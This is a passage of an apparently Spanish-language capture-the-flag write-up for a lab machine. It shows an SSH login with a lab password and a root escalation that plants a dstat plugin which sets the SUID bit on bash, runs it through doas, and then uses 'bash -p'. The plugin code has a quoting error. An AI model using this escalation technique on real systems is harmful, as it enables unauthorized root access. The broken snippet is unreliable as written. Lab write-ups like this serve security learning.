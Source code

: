 Teniendo la contraseña podemos conectarnos al ssh y conseguir la user.txt

```ssh

ssh player@10.129.116.169

player@10.129.116.169's password: PlayerOftheMatch2022

```

# [](#header-1) Escalada de privilegios

Mirando el servidor encontramos en la carpeta /usr/bin/dstat que utiliza "dstat" que es bastante similiar a sudo. Para escalar de privilegios tendremos que crearnos un pluggin dstat_*algo*.py en la carpeta /usr/local/share/dstat/

```python

nano dstat_eskere.py
---------------------------------------------------------------------------------

import os

os.system(chmod u+s /usr/bin/bash')

```

Una vez creado este archivo, le damos permisos de ejecución y lo ejecutamos con dstat

```dstat

doas -u root /usr/bin/dstat --eskere

```

Ejecutamos ```bash -p``` y obtendríamos root, buscamos el directorio /root y allí encontraremos root.txt y habríamos terminado la máquina
